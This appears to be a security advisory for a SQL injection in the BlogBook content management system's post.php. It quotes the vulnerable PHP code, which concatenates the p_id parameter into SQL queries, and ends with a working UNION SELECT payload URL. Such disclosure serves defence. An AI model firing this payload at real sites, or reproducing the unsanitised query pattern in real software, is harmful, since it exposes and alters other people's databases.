

# BlogBook post.php p_id Parameter SQL Injection

**Exploit Title: BlogBook post.php p_id Parameter SQL**

**Vendor Homepage: [chaitak-gorai/blogbook: Blogbook- Content Management System Project](https://github.com/chaitak-gorai/blogbook)**

**Software Link: [chaitak-gorai/blogbook: Blogbook- Content Management System Project](https://github.com/chaitak-gorai/blogbook)**

**Software: blogbook**

**Tested on: Windows,PHP 5.6.9 ,Apache 2.4.39 ,MySQL 8.0.12**

## Vulnerability Overview

A SQL injection vulnerability exists in the [post.php] file of the BlogBook application. User-supplied input from the p_id GET parameter is directly concatenated into SQL query strings without adequate sanitization. This affects both an UPDATE query designed to increment post view counts and a SELECT query used to fetch post data for display. Consequently, an unauthenticated remote attacker can inject and execute arbitrary SQL commands, potentially leading to unauthorized data access, modification, or further compromise of the database.

## Vulnerability Point

`blogbook-main/post.php:27`

## Vulnerable Parameter

`p_id`

## Vulnerable Code

```php
 <?php
                if (isset($_GET['p_id'])) {
                    $link_post_id = $_GET['p_id'];

                    $view_query = "UPDATE posts SET post_views_count=post_views_count +1 WHERE post_id=$link_post_id";
                    $send_query = mysqli_query($connection, $view_query);

                    $query = "SELECT * FROM posts WHERE post_id=$link_post_id";
                    $select_all_posts_query = mysqli_query($connection, $query);


                    while ($row = mysqli_fetch_assoc($select_all_posts_query)) {
                        $post_title = $row['post_title'];
                        $post_id = $row['post_id'];
                        $post_author = $row['post_author'];
                        $post_author_id = $row['author_id'];
                        $post_date = $row['post_date'];
                        $post_image = $row['post_image'];
                        $post_content = $row['post_content'];
                        // $post_content = strip_tags($row['post_content'], "");
                        $post_category_id = $row['post_category_id'];
                        $post_comment = $row['post_comment_count'];
                        $post_views_count = $row['post_views_count'];
                        $query = "SELECT * FROM categories WHERE cat_id={$post_category_id}";
                        $select_categories_id = mysqli_query($connection, $query);
                        $cat = mysqli_fetch_assoc($select_categories_id);
                        $post_category = $cat['cat_title'];

                ?>
```
## Payload

`http://localhost/post.php?p_id=-1%20UNION%20SELECT%20NULL,NULL,user(),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL%20--`


